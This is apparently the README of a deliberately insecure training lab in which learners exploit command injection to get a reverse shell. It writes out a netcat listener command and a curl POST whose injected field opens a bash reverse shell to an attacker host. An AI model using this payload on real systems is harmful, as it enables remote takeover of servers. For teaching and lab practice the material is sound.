 # 🔥 Vulnerable Labs: Shell Yeah - Let's Go in Reverse
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll build on your understanding of command injection, craft and execute a reverse shell payload.

### 🎯 Your Mission

1. Locate the Public IP address of your AttackerBox in the AWS Console.
2. Open a Terminal and SSH to the AttackerBox (if you haven't already).
```bash 
ssh -i ~/.ssh/keyfile.pem ubuntu@attacker_IP
```
3. Run a netcat listener: 
```bash
nc -lvp 5789
```
4. Run the following command:
```bash
curl -X POST http://website_IP/score -d '""; bash -c "/bin/bash -i > /dev/tcp/attacker_IP/5789 0<&1 2>&1" #'
```

### 💥 Hints & Tips

Note: Don't forget to substitute:
- "website_ip" for the Public IP address of your WebServer EC2 instance
- "attacker_IP" for the Public IP address of your AttackerBox EC2 instance 
